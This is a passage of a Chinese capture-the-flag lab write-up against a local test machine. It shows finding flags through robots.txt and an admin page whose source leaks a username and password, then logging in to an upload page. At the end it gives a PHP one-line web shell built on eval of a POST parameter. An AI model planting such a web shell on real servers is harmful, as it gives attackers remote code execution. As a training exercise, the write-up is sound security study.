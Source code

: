 我们从敏感文件 robots.txt 中获取目录信息，查看内容如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPiaaQ9IZqMibXy9T8yHa9UbRSZfKoDWUMeteRunZ9ia0w3HjoeSLXrnIQw/640?wx_fmt=png)

接着我们发现一个敏感的关键词 flag，输入目标地址：192.168.44.143/flag/，第一个 flag 浮出水面，比较基础，是敏感文件和目录相关。

The 1st flag is : {87345xxx2095}

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPeic9FlXH2AMib7CIX4icvWSIIF03doUltBBP6CWDibRfvUTPmh6ibowjFyw/640?wx_fmt=png)

3.Second flag
-------------

在地址栏中输入网址，显示如下图所示：

*   http://192.168.44.143/admin_area/
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEP5OeAHuQHUUUib362YepWJZXdHlK58IOCXRHchHW535OwR26Rybd6zaA/640?wx_fmt=png)

右键查看源码得到第二个 flag，也是比较简单的知识点。  
The 2nd flag is : {7412574xxx895214}

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPlMnllxQ0eMGdRSlLFnHS1pjGZbelWIle9IDJI0Vy4mbXP09GxFLVjg/640?wx_fmt=png)

与第二个 flag 同时出现的还有一个账号和密码，说明接下来我们需要利用这个账号信息。

```
<html><head><title>Fake admin area :)</title><body><center><h1>The admin area not work :) </h1></center><!--	username : admin	password : 3v1l_H@ck3r	The 2nd flag is : {7412574125871236547895214}--></body></html>
```

4.Third flag
------------

### 登录分析

我们之前打开了登录页面，但没有账号和密码。这里是否能用上面的账号和密码呢？接着我们进行了登录尝试，返回页面是一个文件上传。

*   http://192.168.44.143/login.php
    
*   username : admin
    
*   password : 3v1l_H@ck3r
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPYtqHlKaODblziaLhiaG2oS0CA4wic6BdNyHkCYXdicVgVoLNWNFe7nFCrg/640?wx_fmt=png)

### 上传一句话木马

登录之后是一个上传页面，我们尝试上传一句话木马。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPENjbTShBxadpicWqIKCpP9okwsE5NxfhEib0ZXqDDWTgWKlKalZriaM2Q/640?wx_fmt=png)

```
<?php @eval($_POST["eastmount"]); ?>
```
